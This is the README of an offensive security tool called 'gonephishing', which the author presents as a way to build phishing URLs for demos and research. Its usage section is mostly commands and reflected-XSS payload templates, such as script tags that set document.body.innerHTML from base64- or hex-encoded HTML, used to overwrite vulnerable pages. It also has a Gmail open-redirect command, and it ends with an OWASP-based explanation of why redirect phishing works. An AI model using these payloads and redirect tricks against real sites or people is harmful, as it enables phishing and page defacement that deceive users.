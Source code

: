 # gonephishing


Generate phishing urls for demos and fun (serious security research).

### clone

git clone --recurse-submodules https://github.com/vlp443/gonephishing.git

### Requires

pip3 install htmlmin

### Usage

#### Reflected XSS

 Generate a minified version of an html file and optionally encode it then inject it into some javascript/html.  
 
 the containing javascript must contain a ¬  (shift + backtick in UK) to mark location to inject html into.  
 
 Current supported encoders are b64 (base64), hex ('\xAA\xBB' etc), pcnt (every character as url encoded).  If pcnt encoding isnt selected the string gets a standard urlencode
 
 IE only supports around 2000 characters in a get.


Create a file called test.html (the @ sign below signifies that you are using a file rather than direct input)
~~~
python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("¬")</script>'  --encoders b64

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=("¬")</script>'   --encoders hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("¬")</script>'   --encoders b64,hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML="¬"</script>'  --encoders pcnt
~~~
Paste the generated link into the vulnerable request parameter and the page should be overwritten with the supplied html.


#### GMAIL Redirect
OH COOL THEYVE FIXED IT, this now warns you that you are being redirected
~~~
python3 ./gonephishing.py --gmail  --dest https://cutecatsinhats.com/ 
~~~


### About
The OWASP top ten 2013 included A10-Unvalidated Redirects and Forwards with the following description:
Web applications frequently redirect and forward users to other pages and websites, and use untrusted data to determine the destination pages. Without proper validation, attackers can redirect victims to phishing or malware sites, or use forwards to access unauthorized pages. 

This item does not appear in the top ten 2017

google.com has over 40 unsecured redirects  This is unlikely to change as google do not see it as a vulnerability. https://sites.google.com/site/bughunteruniversity/nonvuln/open-redirect


I would expect that the majority of users would trust a site if they were redirected via mail server domain that they were logged into.  This would then cause the user to be more likely to accept a squatted domain of the type described in the quiz below due to the fact that they trust the url via which they were redirected.
 https://phishingquiz.withgoogle.com/



